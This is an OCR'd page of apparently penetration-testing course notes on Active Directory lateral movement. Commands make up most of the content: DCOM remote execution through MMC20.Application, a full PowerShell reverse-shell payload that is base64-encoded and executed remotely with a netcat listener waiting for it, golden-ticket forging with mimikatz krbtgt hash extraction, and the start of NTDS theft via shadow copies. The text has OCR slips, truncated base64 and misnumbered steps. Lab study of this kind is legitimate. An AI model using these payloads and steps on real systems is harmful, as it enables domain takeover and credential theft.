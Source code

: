   - Inspecting the injected ticket in memory  
    `klist` #server: cifs/web04
- DCOM
  - CLIENT74 (Jen) to FILES04
  - From an elevated PowerShell, instantiate a remote MMC 2.0 application by specifying the target IP of FILES04  
    `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target>"))`  
  - Execute a command on the remote DCOM object  
    `$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")`
  - Adding a reverse-shell as a DCOM payload on CLIENT74  
    ```
    #Executing the WMI PowerShell payload
    import sys
    import base64
    
    payload = '$client = New-Object System.Net.Sockets.TCPClient("<kali>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
    
    cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    
    print(cmd)
    
    #Running the base64 encoder Python script
    kali@kali:~$ python3 encode.py
    ```
    `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")`
  - Switch back to kali  
    `kali@kali:~$ nc -lnvp 443`  
    `PS C:\Windows\system32> hostname` #FILE04

**Out of scope**
- 👥 Golden ticket
  Pre-requisites: DC privileges, NTLM hash of krbtgt, Domain SID  
  Note: PsExec connects via hostname  
  1. From compromised CLIENT74 workstation (jen） attempt lateral movement  
     `psexec.exe \\DC1 cmd`
  3. On DC1 (jeffadmin) extract krbtgt hash, domain SID  
     ```
     mimikatz.exe
     privilege::debug
     lsadump::lsa /inject
     ```
  5. Return to low-Privileged Workstation CLIENT74 (jen), open Mimikatz and purge existing kerberos ticket  
     `kerberos::purge`
  7. Forget golden ticket  
     `kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1111111111-2222222222-3333333333 /krbtgt:NTLMHASH /id:500 /ptt`  
  9. Spawn a New Elevated Shell in mimikatz  
      `misc::cmd`
  11. Validate Access with Lateral Movemen  
      `psexec.exe \\DC1 cmd`  #jen has domain admin group memberships now  
- Shadow Copies 
  1. obtain domain admin (jeffadmin)
  2. create shadow copy by note down the generated shadow copy device name  
     `vshadow.exe -nw -p C:`  
     `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`  
  4. Copy the NTDS Database from the Shadow Copy  
